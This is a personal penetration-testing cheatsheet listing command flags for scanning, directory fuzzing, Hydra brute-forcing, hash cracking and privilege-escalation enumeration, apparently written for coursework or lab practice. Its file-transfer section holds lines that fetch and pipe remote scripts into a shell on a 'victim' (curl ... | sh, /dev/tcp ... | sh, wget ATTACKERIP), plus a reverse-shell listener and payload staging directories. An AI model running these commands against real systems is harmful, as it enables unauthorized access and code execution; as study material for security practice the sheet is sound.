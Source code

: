 ### My current Pentest Cheatsheet   
Updated: *11.05.2023*   
[See sources and credits](report.md#y-the-super-ultimate-hakk3r-che33tsheet-001-tee-tiivistelm%C3%A4-omista-ja-kavereiden-parhaista-tunketumistekniikoista-ole-t%C3%A4sm%C3%A4llinen-liit%C3%A4-komennot-mukaan-t%C3%A4m%C3%A4n-kohdan-vastaus-lienee-pidempi-kuin-aiempien-x-teht%C3%A4vien-viittaa-l%C3%A4hteisiin-t%C3%A4ss%C3%A4-alakohdassa-ei-tarvitse-ajaa-komentoja-tietokoneella)

**Nmap:**
```bash
Example: nmap -A -p- <address> -oA filename 
Everything: -A
Enumerate Versions: -sV
Default Scripts: -sC
Syn Scan: -sS
All Ports: -p-
Output (All Formats): -oA filename
```

**Gobuster**
```bash
# Directories
gobuster dir -w /usr/share/wordlists/dirb/small.txt -u http://address

# Vhosts
gobuster vhost -w /usr/share/wordlists/dirb/small.txt -u address --append-domain
```

**Ffuf**
```bash
# Sites
ffuf -w /path/to/wordlist -u https://target/FUZZ

# Vhosts
ffuf -c -w /path/to/wordlist -u http://ffuf.io.fi -H "Host: FUZZ.ffuf.io.fi"

# Filter out response length
-fs <bytesize>
```

---
**Hydra:**
- SSH   
```bash
Example: hydra -l user -p pass 127.0.0.1 ssh
User: -l
User File: -L
Password: -p
Password File: -P
Port: -s
Tasks: -T
```

**Searchsploit:**
```bash
Example: searchsploit SOMETHING
Read Exploit: -x
Copy to current location: -m
```

**SQLi Cheatsheet:** 
https://portswigger.net/web-security/sql-injection/cheat-sheet

---
**Hashcat:**
```bash
Hash Mode: -m <id>
   0 | MD5
1400 | SHA2-256 
1700 | SHA2-512

Attack Mode: -a <id>
0 for dictionary
---
3 for mask
Masks:
  ?l | low caps
  ?u | high caps
  ?d | numbers
  ?h | numbers + low caps
  ?H | numbers + high caps
  ?s | special characters
  
Workload 1-4: -w <id>
Disable Potfile: --potfile-disable
Show Cracked Hashes: --show
Out File: -o
Usernames in Hashfile: --username
```

**John:**
```bash
john --wordlist=/path/file hash.file
```

---
**PrivEsc stuffz:**
```bash
sudo -l
Find Group Owned Files: find / -group <group-name>
Find SUID: find / -perm -4000
Find GUID: find / -perm -2000
Listening Ports: netstat -tulnp
Listening Ports: ss -ltnp
Find World Readable: find / -perm -o+w
```
**Find**
- Disable "permission denied and stuffs" printing:   
```bash
find / -name <something> 2>/dev/null
```

**Good place to put exploits, scripts and stuffs on victim:**   
```bash
 /dev/shm/
 /tmp/
```

**Send files from Attacker to Target:**     
```bash
sudo python -m http.server PORT #Host
wget ATTACKERIP:PORT/filename #Victim
```
OR:   
**Run script over the network:**   
```bash
# Local network
sudo python3 -m http.server 80 #Host
curl <ip_address>/script.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < script.sh #Host
cat < /dev/tcp/<ip_address>/<port> | sh #Victim
```
Source: [Linpeass](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

**Reverse shells:**   
Host, netcat listener:    
```bash
nc -lvnp PORTNUMBER  
```
Shells:   
pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet   
https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

---
**Improved shell:**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL + z

stty raw -echo; fg
export TERM=xterm
```
